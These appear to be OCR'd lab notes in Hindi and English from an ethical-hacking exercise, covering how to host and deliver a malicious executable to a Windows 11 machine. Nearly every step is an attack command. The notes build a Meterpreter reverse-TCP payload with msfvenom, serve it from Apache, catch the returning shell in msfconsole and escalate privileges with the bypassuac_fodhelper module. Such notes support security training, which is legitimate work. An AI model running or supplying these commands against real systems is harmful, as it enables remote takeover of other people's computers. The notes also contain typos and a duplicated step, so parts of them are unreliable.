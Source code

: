 -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# File host on apache server

| Command  | Explain command  |
| --- | --- |
| Sudo service apache2 start | apache2 server start hojayega  |
| >ip a   or ipconfig   eth0 search browser to check apache page | ip address ko copy ker ke browser pe pest krege che its worrk or not |
| virus.exe | ek virus.exe name ka folder bataya |
| >sudo mv virus.exe  /var/www/html |  |
| >cd /var/www/html |  |
| ls  |  |
| >sudo mkdir shares |  |
| >sudo mv virus.exe shares |  |
| Go to the browser and search |  |
| Eth0 ip 192.169.1.2/share/virus.exe | search on vecteam and also attacker machine |

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

2] method  
| step 1 :-  root user bano. |  |
| step2 :- run **cd** | jump to the root directory. |
| step3 :- **msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.1.13 lport=444 -f exe > /home/attacker/Desktop/Windows.exe**. | make payload using msfvemom. |
| step4 :- Run **mkdir /var/www/html/share** | To create a new directory after the location (/var/www/html) |
| step5 :- Run **chmod -R 755 /var/www/html/share** | permission diya share folder ko. |
| step6 :- Run **chown -R www-data:www-data /var/www/html/share** |  |
| step7 :- **cp /home/attacker/Desktop/Windows.exe /var/www/html/share/**  | jo hum payload creat kiye the use hum share folder me copy krayege. |
| step8 :- **service apache2 start** |  |
| step9 :-  Run **msfconsole** |  |
| step10 :- **use exploit/multi/handler** |  |
| step11 :- **set payload windows/meterpreter/reverse_tcp** |  |
| step12 :-**set lhost,set lport,run** |  |
| step13 :-switch to the **Windows 11** machine |  |
| step14 :-**http://10.10.1.13/share** and press **Enter** | search vecteam browser |
| step15 :-[ ] Click on **Windows.exe** to download the file. —→ Navigate to the **Downloads** folder and double-click the **Windows.exe** file —→ If an **Open File - Security** **Warning** window appears; click **Run**. |  |
| step16 :-to switch to the **Parrot Security** machine —→The Meterpreter session has successfully been opened. |  |
| step17 :-Type **sysinfo** and press **Enter —→ &** Type **getuid** and press **Enter** |  |
| step18 :-Type **background** and press **Enter** |  |
| step19 :-Type **search bypassuac** and press **Enter —→** type **use exploit/windows/local/bypassuac_fodhelper** and press **Enter**. |  |
| step20 :-Type **set session 1** and press **Enter**. —> Type **show options enter. —>** set the **LHOST,**[ ] To set the **TARGET** option, type **set TARGET 0** and press **Enter** —>[ ] To set the **TARGET** option, type **set TARGET 0** and press **Enter**  | exploit on **Windows 11** machine.
